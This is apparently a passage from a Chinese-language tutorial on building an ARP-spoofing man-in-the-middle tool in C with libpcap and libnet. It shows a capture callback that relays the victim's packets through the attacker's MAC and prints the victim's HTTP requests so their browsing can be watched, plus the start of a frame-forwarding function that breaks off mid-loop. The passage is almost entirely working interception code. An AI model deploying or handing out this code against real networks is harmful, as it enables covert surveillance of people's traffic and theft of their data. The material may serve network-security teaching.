 抓包之后的回调函数，分析数据包并判断下一次操作：

```c
void getPacket(u_char *arg, const struct pcap_pkthdr *hp, const u_char *packet) {

    /* get args */
    MITM_info MITM_arg = *(MITM_info *)arg;
    int Times = 1;
    u_short type = EPT_IPv4;
    char *dev = MITM_arg.dev;
    u_char *victim_mac = MITM_arg.TARGET_MAC;
    u_char *gateway_mac = MITM_arg.GATEWAY_MAC;
    u_char *attacker_mac = MITM_arg.ATTACKER_MAC;
    u_char *victim_ip = MITM_arg.TARGET_IP;
    u_char *gateway_ip = MITM_arg.GATEWAY_IP;

    /* get packet information */
    ethernet_header *pEther = (ethernet_header *)packet;
    ip_header *pIpv4 = (ip_header *)(packet + 14);
    tcp_header *pTcp = (tcp_header *)(packet + 34);
    char *data = (char *)(packet + 54);

    /* get packet form victim */
    if (!memcmp(pEther->SRC_mac, victim_mac, 6)) {
        char *p = strstr(data, "HTTP");
        if (p != NULL) printf("%s\n", data);
        forward(dev, type, gateway_mac, attacker_mac, packet + 14, hp->len - 14, Times);
    }
    else if (!memcmp(pEther->SRC_mac, gateway_mac, 6)) {
        forward(dev, type, victim_mac, attacker_mac, packet + 14, hp->len - 14, Times);
    }
}
```

这里我们打印了目标主机的HTTP请求来监控他上网。

之后是利用libnet再构建一个链路层数据包并发送回去：

```c
int forward(char *dev, u_short pro_type, u_char *DST, u_char *SRC, const u_char *payload, int len, int Times) {

    /* definations */
    libnet_t *net_t = NULL;
    char errbuf[LIBNET_ERRBUF_SIZE];
    libnet_ptag_t p_tag;
    int res;

    /* start libnet */
    net_t = libnet_init(LIBNET_LINK_ADV, dev, errbuf);
    if (net_t == NULL) {
        printf("libnet start error\n");
        return 1;
    }

    /* build ethernet */
    p_tag = libnet_build_ethernet(DST, SRC, pro_type, payload, len, net_t, 0);
    if (p_tag == -1) {
        printf("libnet build error\n");
        libnet_destroy(net_t);
        return 1;
    }

    /* send packet */
    for (int i = 0; i < Times; i++) {
        res = libnet_write(net_t);
```